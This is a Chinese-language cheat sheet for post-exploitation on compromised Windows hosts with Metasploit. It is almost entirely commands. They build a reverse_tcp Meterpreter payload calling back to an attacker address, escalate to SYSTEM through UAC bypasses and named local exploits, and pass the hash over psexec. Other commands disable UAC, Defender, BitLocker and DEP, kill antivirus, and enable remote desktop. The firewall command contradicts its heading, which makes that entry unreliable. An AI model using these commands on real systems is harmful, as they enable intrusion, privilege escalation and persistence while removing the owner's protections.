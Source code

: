 
# 后渗透测试阶段

* 原理
* 基于已有session扩大战果
* 获取system账号权限
* 绕过UAC限制
* 利用漏洞直接提权为 system
* 图形化payload
* Psexec 模块之 Passthehash
* 关闭 windows 防火墙
* 关闭 Windefend
* Bitlocker 磁盘加密
* 关闭 DEP
* 杀死防病毒软件
* 开启远程桌面服务
* 查看远程桌面

## 原理
> * 已经获得目标系统控制权后扩大战果
>   - 提权
>   - 信息收集
>   - 渗透内网
>   - 永久后门

## 基于已有session扩大战果
``` 
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp    LHOST=1.1.1.1 LPORT=4444 -b "\x00" -e x86/shikata_ga_nai -f exe -o   1.exe
```

## 获取system账号权限
``` 
load priv
getsystem
    priv_elevate_getsystem: Operation failed: Access is denied.
```

## 绕过UAC限制
``` 
use exploit/windows/local/ask
    set session
    set filename
use exploit/windows/local/bypassuac
use exploit/windows/local/bypassuac_injection
    set session
    set payload
```

## 利用漏洞直接提权为 system
``` 
use exploit/windows/local/ms13_053_schlamperei
use exploit/windows/local/ms13_081_track_popup_menu
use exploit/windows/local/ms13_097_ie_registry_symlink
use exploit/windows/local/ppr_flatten_rec
```



## 图形化payload
``` 
set payload windows/vncinject/reverse_tcp
set viewonly no
```

## Psexec 模块之 Passthehash
``` 
use exploit/windows/smb/psexec
set smbpass hash
// 需要提前关闭 UAC
cmd.exe /k %windir%\System32\reg.exe ADD HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v EnableLUA /t REG_DWORD /d 0 /f
cmd.exe /k %windir%\System32\reg.exe ADD HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v EnableLUA /t REG_DWORD /d 0 /f
cmd.exe /k %windir%\System32\reg.exe ADD HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\system /v LocalAccountTokenFilterPolicy /t        REG_DWORD /d 1 /f
cmd.exe /k %windir%\System32\reg.exe ADD HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\system /v LocalAccountTokenFilterPolicy /t        REG_DWORD /d 1 /f
```

## 关闭 windows 防火墙
``` 
netsh advfirewall set allprofiles state on
```

## 关闭 Windefend
``` 
net stop windefend
```

## Bitlocker 磁盘加密
``` 
manage-bde -off C:
manage-bde -status C:
```


## 关闭 DEP
``` 
bcdedit.exe /set {current} nx AlwaysOff
```

## 杀死防病毒软件
``` 
Run killav
run post/windows/manage/killav
```

## 开启远程桌面服务
``` 
run post/windows/manage/enable_rdp
run getgui –e
    run getgui -u yuanfh -p pass
    run multi_console_command -rc /root/.msf4/logs/scripts/getgui/clean_up__20160824.1855.rc
```

## 查看远程桌面
``` 
screenshot
use espia
    screengrab
```

